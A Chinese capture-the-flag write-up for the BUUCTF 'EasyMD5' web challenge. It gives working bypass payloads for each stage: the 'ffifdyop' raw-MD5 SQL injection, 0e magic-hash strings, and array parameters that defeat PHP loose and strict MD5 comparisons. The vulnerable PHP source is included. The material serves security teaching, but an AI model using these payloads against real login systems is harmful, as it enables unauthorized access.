


# EasyMD5 — 三种比较，三条绕过

> **题目类型**：Web — MD5 特性 / 弱类型 / SQL 注入
>
> **题目地址**：BUUCTF EasyMD5（ctf2 复刻环境）
>
> **Flag**：`CTF2{028c2bd1-33f7-401b-b299-1525fd86cf41}`

---

## 题目概述

刚进来就是一个查询页面，一个输入框加一个「提交查询」按钮，源码里什么也没有。


**后面还有两关，一共三层，每层考一种不同的绕过。**

---

## 解题过程

### Step 1：先是完全没头绪

**看着像查询框，先试各种 SQL 注入 —— 页面一点动静都没有。**

**又用 dirsearch 扫了一下，还是没东西。**

**最后抓包发出去，看**响应头**，发现了 hint。**

### Step 2：Hint 在响应头里


```text
Hint: select * from 'admin' where password=md5($pass, true)
```

**注意 `md5($pass, **true**)` 这个第二个参数。**

```
md5($s, false)  →  32 位十六进制字符串（平时用的那种）
md5($s, true)   →  16 字节的原始二进制
```

**平时我们见到的 `md5` 结果都是 32 个字符，那是因为默认把它编码成十六进制了。`true` 返回的是**原始字节** —— 而这些字节里可以出现引号、反斜杠等特殊字符。**

**也就是说：**MD5 的结果可能污染 SQL 语句。**

### Step 3：构造一个永真式

**SQL 拼出来是：**

```sql
select * from 'admin' where password='<md5 的原始字节>'
```

**如果 md5 的原始字节以 `'or'` 开头，就变成了：**

```sql
where password=''or'6...'
                └──┘ └──── 非空字符串 → 真
```

**`'' or '任意非空字符串'` 恒为真 → 直接登录进去。**

**本机验证：**

```php
md5('ffifdyop', true)
= 276f722736c95d99e921722cf9ed621c
可打印形式： 'or'6.]..!r,..b.
```

**所以第一关的答案就是 `ffifdyop`。**

### Step 4：第二关 —— 松散不等 + 弱相等



```php
$a = $_GET['a'];
$b = $_GET['b'];
if ($a != $b && md5($a) == md5($b)) {
    // wow, glzjin wants a girl friend.
}
```

**两个条件：**

```
$a != $b          松散不等（数组、'1' 和 1 都算相等）
md5($a) == md5($b) 松散相等
```

**两条路都能过：**

**① 0e 碰撞**

**两个不同的字符串，MD5 后都以 `0e` 开头且后面全是数字 → 被当成科学计数法比较 → 都等于 0。**

```text
QNKCDZO      → 0e830400451993494058024219903391
240610708    → 0e462097431906509019562988736854
```

**② 数组**

```text
?a[]=1&b[]=2
```

**`md5(array)` 在 PHP 7 里报个 warning 然后返回 NULL —— 两边都是 NULL，`NULL == NULL` 成立。**

### Step 5：第三关 —— 严格不等 + 强相等



```php
if ($_POST['param1'] !== $_POST['param2'] && md5($_POST['param1']) === md5($_POST['param2'])) {
    echo $flag;
}
```

**`!==` 和 `===` 都不做类型转换 —— 这才是关键。**

**0e 那条路断了：字符串 `===` 比较要求完全相同。**

**但数组还能用：**

```text
param1[]=1&param2[]=2
```

| 表达式 | 结果 | 原因 |
|---|---|---|
| `param1 !== param2` | **true** | 两个数组元素不同 |
| `md5(param1) === md5(param2)` | **true** | 两边都是 NULL，`NULL === NULL` |

**注意：`md5(array)` 在 **PHP 8** 会直接抛 `TypeError`（致命错误）—— 这招只在 PHP 7 上成立。**

### Step 6：拿 flag

```text
CTF2{028c2bd1-33f7-401b-b299-1525fd86cf41}
```

---

## 解题思路总结

```text
页面只有一个查询框 → 试 SQL 注入没反应 → 抓包看响应头
  → Hint: password=md5($pass, true)
    → md5 第二参数 true 返回 16 字节原始二进制
      → 原始字节可含引号 → SQL 注入
        → ffifdyop 的原始 md5 以 'or'6 开头 → 永真 → 第一关过
          → 第二关：!= 和 == → 0e 碰撞 或 数组
            → 第三关：!== 和 === → 只能数组
              → flag
```

### 漏洞原理

**三关考的都是"比较时发生了什么"，但三种比较的严格程度不同：**

| 写法 | 含义 | 能被什么打败 |
|---|---|---|
| `!=` / `==` | 松散比较，**先转类型再比** | 类型转换（`0e` 科学计数法、`'1' == 1`） |
| `!==` / `===` | 严格比较，**类型和值都要一样** | 类型本身被改变（数组 → `md5` 返回 NULL） |
| `md5($x, true)` | 返回**原始字节**而非十六进制 | 原始字节里可以长成 SQL 语法的一部分 |

**一句话：**`==` 骗的是"值"，`===` 骗不了值 —— 但可以骗"类型"。**

### 关键知识点

| 知识点 | 说明 |
|---|---|
| `md5($s, true)` | 返回 16 字节原始二进制（可含 `'` `\` 等字符） |
| `ffifdyop` | 它的原始 MD5 以 `'or'6` 开头，是万能密码的经典 payload |
| 0e 碰撞 | `QNKCDZO` / `240610708` / `aabg7XSs` 等，MD5 都是 `0e` 开头纯数字 |
| `md5(array)` | **PHP 7**：warning + 返回 NULL；**PHP 8**：`TypeError` |
| NULL 比较 | `NULL == NULL` 真，`NULL === NULL` 也真 |
| Hint 藏响应头 | 页面没反应不代表没线索，**抓包看头** |
| 松散 vs 严格 | `==` 转类型；`===` 不转（但类型可以被函数返回值改变） |

---

??? note "三关源码（按截图整理）"

    ```php
    <!-- 第一关：在响应头里给 Hint -->
    <!--
    Hint: select * from 'admin' where password=md5($pass, true)
    -->

    <!-- 第二关 -->
    <?php
    $a = $_GET['a'];
    $b = $_GET['b'];
    if ($a != $b && md5($a) == md5($b)) {
        // wow, glzjin wants a girl friend.
    }
    ?>

    <!-- 第三关 -->
    <?php
    error_reporting(0);
    include "flag.php";
    highlight_file(__FILE__);
    if ($_POST['param1'] !== $_POST['param2'] && md5($_POST['param1']) === md5($_POST['param2'])) {
        echo $flag;
    }
    ?>
    ```
